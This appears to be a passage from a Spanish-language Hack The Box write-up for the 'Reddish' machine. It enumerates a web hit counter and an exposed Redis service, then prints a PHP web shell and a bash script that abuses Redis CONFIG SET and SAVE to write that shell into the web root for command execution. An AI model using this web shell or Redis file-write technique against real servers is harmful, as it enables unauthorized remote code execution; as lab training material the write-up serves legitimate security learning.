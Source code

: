 La funcion de **backup** parece no estar disponible. Debido a como es el código podriamos intentar un **Local File Inclusion** pero no nos va a funcionar. Si analizamos lo que hace **get hits** y **incr hits** es contar el numero de veces que recargamos la pagina. Podemos comprobarlo haciendo ctrl + shift + c y recargando.
![](/assets/images/htb-writeup-reddish/incrementar_hits_web.png)

Antes de hacer **Fuzzing** miremos el servicio redis(6379)


## Enumeración y explotación de Redis (6379)

Estaremos usando el recurso de **hacktricks**: [Enumeracion Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)<br>
Al final encontreremos una base de datos relacionada con el numero de hits que teniamos en el servicio web. Lo podemos comprobar recargando la web y viendo como el contador en redis aumenta.
![](/assets/images/htb-writeup-reddish/redis_database.png)

Por lo que esto es sospechoso. Si seguimos investigando en la web de hacktricks veremos que hay una forma de **incluir archivos en la máquina** por lo que podemos comprobar si funciona. Pero **¿donde incluimos en archivo?**, pues podemos suponer que la ruta es **/var/www/html** y la que nos indica en la web 8924d0549008565c554f8128cd11fda4.

Primero crearemos un archivo **cmd.php** con el siguiente codigo:
```php
<?php
	system($_REQUEST['cmd']);
?>
```
Destacar que es importante que el código tenga **tres saltos de linea al principio y dos saltos al final**. Esto es debido a que redis al subir archivos mete información en esas líneas y puede darnos problemas.

Subiremos el archivo de la siguiente manera. Es recomendable meterlo en un script ya que la máquina borra los archivos que subas cada cierto tiempo:
```bash
#!/bin/bash

cat cmd.php | redis-cli -h localhost -x set reverse 
redis-cli -h localhost config set dir /var/www/html/8924d0549008565c554f8128cd11fda4
redis-cli -h localhost config set dbfilename "cmd.php"
redis-cli -h localhost save
```
